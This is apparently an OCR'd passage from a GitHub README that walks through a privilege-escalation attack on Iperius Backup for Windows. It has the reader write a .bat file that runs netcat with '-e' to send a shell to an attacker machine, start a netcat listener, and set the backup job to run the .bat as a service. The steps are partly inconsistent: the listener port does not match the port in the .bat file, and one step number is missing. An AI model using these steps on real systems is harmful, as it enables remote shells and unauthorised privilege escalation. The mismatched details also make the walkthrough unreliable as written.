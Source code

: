     2. **Create a .bat file (ex. "exploit.bat") and place it to Desktop.**

        When saving, be sure to save it as the file type "All Files". (NOT Text Documents (*.txt))

        ```powershell
        @echo off
        C:\Users\<USERNAME>\Downloads\nc.exe <attack_machine_ip> 1337 -e exploit.exe
        ```

    3. **Open Listener in Local Machine**

        ```sh
        nc -lvnp 4444
        ```

    4. **Settings in Target Machine**

        1. Click "Iperius" icon in Windows Explorer (path: C:\Program Files (x86)\Iperius Backup\Iperius).
        2. Right click the "Iperius" icon on the right-bottom of the bar to open it.
        3. Click "Create New Backup" and select "Add Folder".
        4. Enter path (c:\Users\<USERNAME>\Documents) and click "OK".
        5. Navigate to "Destination" tab and select "Add Destination Folder".
        7. Enter path (c:\Users\<USERNAME>\Descktop) and click "OK".
        8. Navigate to "Other Processes" tab.
        9. On "Before backup" section, check "Run a program or open external file:" and select "exploit.bat" file.

        - **Run**
            On "Iperius Backup" window, right-click on backup jobs "Documents" and select "Run backup as service" then click "OK" on the dialog.

    5. **Check if Incoming Connection Established in Local Machine**
